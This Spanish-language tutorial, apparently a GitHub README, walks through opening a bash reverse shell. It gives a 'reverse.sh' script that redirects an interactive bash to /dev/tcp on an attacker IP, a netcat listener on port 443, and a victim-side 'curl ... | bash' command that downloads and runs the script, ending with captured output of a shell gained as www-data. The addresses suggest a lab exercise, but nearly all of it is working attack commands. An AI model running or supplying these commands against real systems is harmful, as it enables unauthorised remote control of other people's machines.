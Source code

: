 # Conexiones Reversas
### _Conexion reversa con bash_ | Reverse connection with bash
____
Para crear una conexion reversa, en este caso, utilizaremos bin bash, por lo que se deben seguir los siguientes pasas

#### 1. Script bash 
```java
       │ File: reverse.sh
───────┼─────────────────────────────────────────────────────────────────────────────────────────
   1   │ #/bin/bash
   2   │ bash -i >& /dev/tcp/10.8.8.209/443 0>&1
───────┴─────────────────────────────────────────────────────────────────────────────────────────
```
>*_Nota_*: En caso de no estar logueado con el usuario root, ejecutar con el comando sudo, para elevar privilegios, para validar que esta funcionando el servidor web podemos hacer una petición por el explorador a la ruta http://localhost:80/

#### 2. Iniciar servicio netcat

Para ejecutar una shell reversa vamos a crear la comunicación utilizando el servicio de netcat o **_nc_**, para los amigos, y abrir un puerto de comunicación para poner en escucha. 
>```java
>root$nc -nlvp 443
>listening on [any] 443 ...
>```
#### 3. Ejecutar la comunicación desde el equipo víctima.
Para hacer la carga del LFI, para este ejercicio supondremos,  que esta petinición se puede hacer desde el equipo victima, y para descar el archivo reverse.sh utilizaremos un servidor web para obtener el LFI.
>```java
>/usr/bin/curl 10.8.8.209/reverse.sh|bash
>```
#### 4. Resultado.

Si el proceso se realizó correctamente, podemos verificar la conexion en el siguiente resultado en la tercera línea.

>```java
>root$nc -nlvp 443
>listening on [any] 443 ...
>connect to [10.8.8.209] from (UNKNOWN) [10.10.252.152] 49562  
>www-data@ip-10-10-252-152:/var/www/html$ 
>```

